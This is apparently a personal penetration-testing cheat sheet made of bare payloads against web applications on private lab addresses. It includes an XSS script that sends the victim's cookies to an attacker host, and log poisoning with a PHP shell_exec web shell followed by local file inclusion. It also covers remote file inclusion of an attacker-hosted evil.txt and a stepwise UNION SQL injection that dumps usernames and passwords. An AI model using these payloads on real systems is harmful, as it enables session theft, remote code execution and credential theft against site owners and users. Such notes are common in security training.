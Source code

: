 #### XSS

`<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>`

`powershell -ExecutionPolicy Bypass -File clear_logs.ps1`

`powershell -ExecutionPolicy Bypass -File admin_login.ps1`

### LOG POISONING

```
nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

```
### LFI

`http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`

### Running a server

`<?php echo shell_exec($_GET['cmd']); ?>`

`python -m SimpleHTTPServer 7331`

`python3 -m http.server 7331`

`php -S 0.0.0.0:8000`

`ruby -run -e httpd . -p 9000`

`busybox httpd -f -p 10000`

### PHP data wrapper used with LFI

`http://192.168.175.10/menu.php?file=data:text/plain,%3C?php%20echo%20shell_exec(%22dir%22)%20?%3E`

### RFI

`http://192.168.175.10/menu2.php?cmd=ipconfig&file=http://192.168.119.175/evil.txt?`

`http://192.168.175.10/menu.php?cmd=ipconfig&file=http://192.168.119.175/evil.txt`

### SQL Injection

```

jim' or 1=1 limit 1;#


http://10.11.0.22/debug.php?id=1 order by 1

http://10.11.0.22/debug.php?id=1 union all select 1, 2, 3

http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version 

http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()

http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables

http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'

http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users



```
